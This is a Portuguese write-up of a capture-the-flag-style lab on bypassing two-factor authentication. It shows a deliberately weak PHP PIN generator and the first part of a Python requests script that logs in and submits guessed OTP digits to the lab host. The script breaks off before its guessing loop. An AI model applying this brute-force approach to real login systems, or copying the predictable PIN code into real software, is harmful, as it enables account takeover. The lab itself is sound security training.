 ### Exploração

A aplicação efetua o logout automaticamente do usuário, se ele informar o token 2FA incorreto, essa aplicação gera 4 dígitos (PIN) toda vez que o usuário realiza o login.  
Laboratório:`http://mfa.thm/labs/third`

Código que gera o PIN:

```php
function generateToken()
{
    $token = strval(rand(1250, 1350));

    $_SESSION['token'] = $token;
    return 'success';
}
```

Vamos utilizar o script fornecido em aula, para adivinhar o PIN correto.

```python
import requests

# Define the URLs for the login, 2FA process, and dashboard
login_url = 'http://mfa.thm/labs/third/'
otp_url = 'http://mfa.thm/labs/third/mfa'
dashboard_url = 'http://mfa.thm/labs/third/dashboard'

# Define login credentials
credentials = {
    'email': 'thm@mail.thm',
    'password': 'test123'
}

# Define the headers to mimic a real browser
headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://mfa.thm',
    'Connection': 'close',
    'Referer': 'http://mfa.thm/labs/third/mfa',
    'Upgrade-Insecure-Requests': '1'
}

# Function to check if the response contains the login page
def is_login_successful(response):
    return "User Verification" in response.text and response.status_code == 200

# Function to handle the login process
def login(session):
    response = session.post(login_url, data=credentials, headers=headers)
    return response
  
# Function to handle the 2FA process
def submit_otp(session, otp):
    # Split the OTP into individual digits
    otp_data = {
        'code-1': otp[0],
        'code-2': otp[1],
        'code-3': otp[2],
        'code-4': otp[3]
    }
```